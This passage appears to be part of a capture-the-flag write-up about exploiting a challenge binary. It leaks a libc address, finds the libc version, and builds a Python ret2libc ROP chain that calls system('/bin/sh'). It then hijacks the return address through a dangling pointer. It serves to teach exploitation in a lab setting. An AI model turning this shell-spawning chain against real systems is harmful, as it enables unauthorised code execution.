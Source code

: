 ### Ret2libc Payload Crafting
If we inspect the leaked libc address at the 368th stack frame of `game_handler` in GDB, we'll notice it points to `_IO_2_1_stdin_`.  
Given that the task did not provide a the version of libc it uses, we leak the libc address from the server, knowing it points to the `_IO_2_1_stdin_` symbol.

Then we search the symbol's offset in the libc database to find the version of libc the server uses (I used this [website](https://libc.blukat.me/)).

Because multiple versions are found, we assume the first version corresponds to the server's libc version, and make our code dynamically-dependent on the libc version so we can change it later if needed. 

Next, we simply calculate the libc base address by subtracting the symbol `_IO_2_1_stdin_`'s offset from the leaked libc address.  
Then we calculate the symbol's addresses that will spawn a shell for us: `pop rdi; ret`, `"bin/sh"`, `ret` and `system`.  
The additional `ret` instructions in the payload are necessary for avoiding potential stack alignment issues during the exploit.

```python
# Leak libc
libc_leak = leakLibc(io)
# Checked for this symbol in my elf's mapping
libc_base = libc_leak - libc.sym['_IO_2_1_stdin_']

system = libc_base + libc.sym['system']  # Calculating system address
bin_sh = libc_base + next(libc.search(b'/bin/sh\x00'))  # Calculating "bin/sh" address
pop_rdi = libc_base + (libcROP.find_gadget(['pop rdi', 'ret']))[0]  # Calculating "pop rdi; ret" gadget address
ret = libc_base + (libcROP.find_gadget(['ret']))[0]  # Calculating "ret" gadget address

# Crafting the rop chain
offset = b'A'*8
payload = [
  offset,
  ret,  # Added for stack alignment
  ret,
  ret,
  pop_rdi,
  bin_sh,
  system
]
payload = b''.join(payload)
```

### Code flow Hijacking
To reach the buffer pointed by `dangling_pointer` and **overwrite the return address on the corresponding stack frame**, we need to determine the exact number of stack frames.  
This involves comparing the current stack frame address to the buffer's address in memory.  
By gradually creating additional stack frames, we progress until we notice that we are **16 bytes** away from the return address.  
After experimenting, we find out that 436 stack frames were necessary.
